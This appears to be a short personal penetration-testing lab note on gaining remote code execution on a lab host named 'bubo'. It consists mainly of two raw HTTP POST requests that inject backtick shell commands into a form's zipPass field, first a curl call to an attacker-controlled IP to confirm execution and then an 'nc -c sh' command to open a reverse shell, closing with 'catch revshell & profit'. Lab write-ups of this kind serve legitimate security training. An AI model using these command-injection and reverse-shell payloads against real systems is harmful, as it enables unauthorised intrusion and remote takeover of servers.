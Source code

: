 ---------
##### Remote Code Execution (RCE)
- **Common Protections are required for RCE occasionally***
###### Bubo
#curl
First test to see if able to hit `kali` machine - typically with a curl command
```http
POST /personnelSubmission/index.php HTTP/1.1
Host: bubo
Content-Length: 100
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://bubo
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://bubo/personnelSubmission/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

submissionData=Data+goes+here.&passCheck=on&zipPass=`curl http://192.168.45.171:8000/test.txt`
```
python3 server `test.txt` hit, shows we have rce
![[Pasted image 20241205130619.png]]
submit `payload` with `URL` encoding `CTRL+U`
```bash
POST /personnelSubmission/index.php HTTP/1.1
Host: bubo
Content-Length: 88
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://bubo
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://bubo/personnelSubmission/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

submissionData=Data+goes+here.&passCheck=on&zipPass=`nc+-c+sh+192.168.45.171+1337`
```
catch `revshell` & profit
![[Pasted image 20241205135720.png]]
